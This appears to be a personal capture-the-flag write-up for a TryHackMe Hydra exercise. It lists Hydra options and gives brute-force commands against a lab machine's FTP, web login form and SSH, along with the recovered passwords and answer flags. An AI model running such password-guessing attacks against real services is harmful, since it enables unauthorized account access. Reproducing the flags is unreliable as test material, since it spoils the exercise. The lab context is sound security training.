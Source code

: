 ```yaml
---
{"dg-publish":true,"permalink":"/my-digital-garden/","tags":["gardenEntry"],"created":"2025-02-06T18:51:33.711-05:00","updated":"2025-02-06T19:37:21.016-05:00"}
---
```


Testing 123

Trying this out again 

# Task 2 - Using Hydra

| Option              | Description                                                                            |
| ------------------- | -------------------------------------------------------------------------------------- |
| -l                  | specifies the (SSH) username for login                                                 |
| -P                  | indicates a list of passwords                                                          |
| -t                  | sets the number of threads to spawn                                                    |
| http-post-form      | the type of the form is POST                                                           |
| <path>              | the login page URL, for example, login.php                                             |
| <login_credentials> | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| <invalid_response>  | part of the response when the login fails                                              |
| -V                  | verbose output for every attempt                                                       |

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

   

Checking the page source tells us that its using a "POST" method as the request type

 

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```
   
  

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.

  

> [!Success] Answer
> THM{2673a7dd116de68e85c48ec0b1f2612e}

> [!Question]
> **Use Hydra to bruteforce molly's SSH password. What is flag 2?** 

Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```

  

Then SSH'd into molly's machine to get the flag using the password, butterfly.

  

> [!Success] Answer
> THM{c8eeb0468febbadea859baeb33b2541b}



